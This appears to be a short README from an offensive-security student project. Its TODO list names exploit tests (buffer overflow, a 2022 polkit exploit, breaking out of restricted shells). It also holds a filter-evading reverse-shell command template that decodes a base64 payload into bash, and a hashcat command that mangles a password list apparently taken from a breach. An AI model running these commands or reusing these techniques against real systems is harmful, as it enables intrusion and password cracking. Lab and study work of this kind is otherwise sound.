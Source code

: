 # BAU-project
## TODO
1. Finish UI
2. Nabil create a docker image
3. Prepare exploits
4. Documentation :(
5. Enhance ProgramDownloader and test BoF attack
6. polkit 2022 exploit test
7. Restricted ssh shells (break out using python and tmux)
999. after finally ( apt install forensics-all) (optional)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation
```
https://pastebin.com/UycbfwRP
```
## Password list
Download: https://github.com/clem9669/hashcat-rule/blob/master/clem9669_medium.rule
```
# mohammad_threats2022 (sample in PassFromBreach.txt )
hashcat -r clem9669_medium.rule --stdout PassFromBreach.txt > output.txt
```
